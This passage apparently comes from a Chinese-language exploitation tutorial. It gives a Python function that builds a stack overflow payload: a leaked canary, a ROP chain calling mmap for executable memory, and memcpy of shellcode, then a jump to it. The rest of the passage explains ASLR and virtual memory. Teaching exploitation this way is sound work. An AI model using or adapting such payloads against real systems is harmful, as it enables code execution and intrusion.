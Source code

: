```
def hijack_exec(p: Popen, canary):    shellcode = 0x7fffffffddb0  + 0x40                    # Shellcode Address    payload = b""    payload += b"A" * 0x112                               # Fills the stack frame    payload += struct.pack( "<Q", canary ) # Places the correct canary value     payload += b"B" * 0x8                                 # Base pointer    payload += struct.pack( "<Q", 0x7ffff7dd8205 ) # pop rdi; ret    payload += b"\x00" * 0x8                              # addr = NULL    payload += struct.pack( "<Q", 0x7ffff7dd9b39 ) # pop rsi; ret    payload += struct.pack( "<Q", 0x1000 ) # Page size     payload += struct.pack( "<Q", 0x7ffff7ebb37d ) # pop rdx; ret    payload += struct.pack( "<Q", 0x01 | 0x02 | 0x04 ) # Protections: PROT_EXEC=0x01, PROT_WRITE=0x02, PROT_READ=0x04     payload += struct.pack( "<Q", 0x7ffff7ded94c ) # pop rcx; add eax, 0x1734ba; ret;    payload += struct.pack( "<Q", 0x01 | 0x20 ) # flags: MAP_SHARED=0x01 MAP_ANONYMOUS=0x20    payload += struct.pack( "<Q", 0x7ffff7fd9efb ) # pop r8; ret    payload += b"\xff" * 0x8                              # fd = -1    payload += struct.pack( "<Q", 0x7ffff7eba9a0 ) # mmap( NULL, 0x1000, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_SHARED, -1, 0 )        payload += struct.pack( "<Q", 0x7ffff7f288a1 ) # xchg rdi, rax; cld; ret;    payload += struct.pack( "<Q", 0x7ffff7dd9b39 ) # pop rsi; ret    payload += struct.pack( "<Q", shellcode ) # Shellcode address    payload += struct.pack( "<Q", 0x7ffff7ebb37d ) # pop rdx; ret    payload += struct.pack( "<Q", len(buf) + 0x40 ) # Shellcode size for memcpy    payload += struct.pack( "<Q", 0x7ffff7feb6e0 ) # memcpy( exec_mem, shellcode, shellsize )    # Execute the shellcode    payload += struct.pack( "<Q", 0x7ffff7e5ce42 ) # push rdi; adc al, 0x48; lea eax, [rdi + 0x15]; ret;        payload += b"\x90" * 0x40                             # NOPs for padding    payload += buf # Shellcode    p.stdin.write( b"1\n" )    p.stdin.write( payload + b"\n" )    p.stdin.flush()
```  
  
  
让我们开火吧：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrMXwKgdx1Pm8N7f8uo5FCfPvQ1hS1rCoc2AhnnOqgdJ6j4KYwibEd5yg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrd9Eg3cntH3uoGM4Ve65LauQP3BeiaaTDvwLiaibVXyLMPBxLNicCJUdUWg/640?wx_fmt=png&from=appmsg "")  
  
地址空间布局随机化（ASLR）  
  
我们使用的大多数漏洞利用策略都需要使用固定地址，例如堆栈中的 Shellcode 地址、关键数据地址（例如 Canary 漏洞）以及 ROP 小工具地址。如果不知道这些关键数据的地址，漏洞利用将完全失败。本保护措施旨在杜绝这种做法。  
  
ASLR 本质上是在程序加载到内存时随机化可执行文件的基址，同时也随机化加载的库、堆栈和堆。因此，如果攻击者控制了执行流程（例如控制指令指针），那么待执行代码的位置、ROP 工具的地址以及漏洞利用所需的所有其他信息都将完全未知。要理解这种保护措施的具体工作原理，我们首先需要了解操作系统如何管理内存及其背后的考量。实际上，我们在调试过程中看到的以及与之交互的地址并非实际的物理内存地址，而是虚拟内存地址。我将解释操作系统为何采用这种方式工作以及其优势所在。  
  
在当今时代，与需要同时运行众多程序的用户，甚至服务于数千甚至数百万客户端的服务器的需求相比，物理内存空间极其有限。所有这些都完全不适合 RAM 大小。此外，RAM 非常昂贵，不仅在经济上，还会因为增加 RAM 会对能耗和计算机整体性能等其他方面产生负面影响。因此，虚拟内存应运而生，解决了这些问题。  
  
虚拟内存可以定义为操作系统的一种内存管理方法，它模拟一个大于物理内存的内存。它允许许多大于物理内存的程序以非常智能的方式运行，允许将部分数据加载到物理内存中，而不是全部数据。硬盘用于存储未使用的数据。当轮到数据时，内存管理器会将其交换到物理内存中。为了跟踪数据及其在物理内存中的实际位置，内存管理器会构建一个映射表，用于标识数据的虚拟地址及其在物理内存中的对应地址，以及其他标识哪些虚拟地址属于哪个进程的信息。您是否注意到，在同时运行的不同进程中，相同的地址会重复出现？  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrVdBhRxSaG9duzuynvIzVpJibichN4yYlSZUAjqF4u1bjiaQEBO1QFKuVg/640?wx_fmt=jpeg&from=appmsg "")  
  
操作系统概念书第 9 章  
  
映射表（页表）起着至关重要的作用，当特定进程请求访问虚拟地址时，它帮助操作系统将虚拟地址转换为真实的物理地址。操作系统与 CPU 中的内存管理单元 (MMU) 协同执行此任务。这就是为什么当不同的进程尝试访问相同的虚拟地址时不会发生冲突的原因。  
  
通常，当 ASLR 被禁用时，操作系统会将进程映射到固定的虚拟内存范围。但是，当 ASLR 被启用时，操作系统会在每次程序运行时选择随机范围。页表会始终帮助内存管理器将这些虚拟地址转换为物理地址；它并不关心这些地址；对它来说，这些地址只是数字而已。我想在此指出，无论是否启用 ASLR，物理内存中的数据地址本质上都是随机的，并且每次程序运行时，数据地址都会位于不同的位置。整个问题都在于虚拟内存管理系统。  
  